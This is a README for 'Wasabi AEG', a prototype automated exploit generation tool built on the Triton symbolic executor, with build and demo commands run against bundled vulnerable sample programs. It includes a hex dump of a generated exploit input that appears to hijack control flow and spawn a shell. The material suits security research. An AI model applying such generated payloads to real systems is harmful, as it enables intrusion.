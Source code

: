 Wasabi AEG
====

This is yet another implementation (demonstration) of [AEG (Automated Exploit Generation)](http://security.ece.cmu.edu/aeg/) using Symbolic Executor Triton.

This is a Prototype.

Requirements
-----
* [Triton](https://github.com/JonathanSalwan/Triton)
* Python2


Build
----
```
cd vuln-samples
make
cd -
```


Demo
-----
```
time ~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton solve-notes.py vuln-samples/notes < vuln-samples/crash-inputs/notes-1
time ~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton solve-notes-phase-2.py vuln-samples/notes < crash_inputs
xxd 
```
```
K_atc% xxd crash_inputs-2 
00000000: 6e0a 7469 740a 636f 6e0a 6e0a 7469 7421  n.tit.con.n.tit!
00000010: 0a63 6f6e 210a 750a 310a 4141 4125 4141  .con!.u.1.AAA%AA
00000020: 7341 4142 4141 2441 416e 7820 6000 0000  sAABAA$AAnx `...
00000030: 0000 0a63 6f6e 2121 0a75 0a32 0a74 6974  ...con!!.u.2.tit
00000040: 2121 0ab2 0840 0000 0000 0073 680a       !!...@.....sh.
```
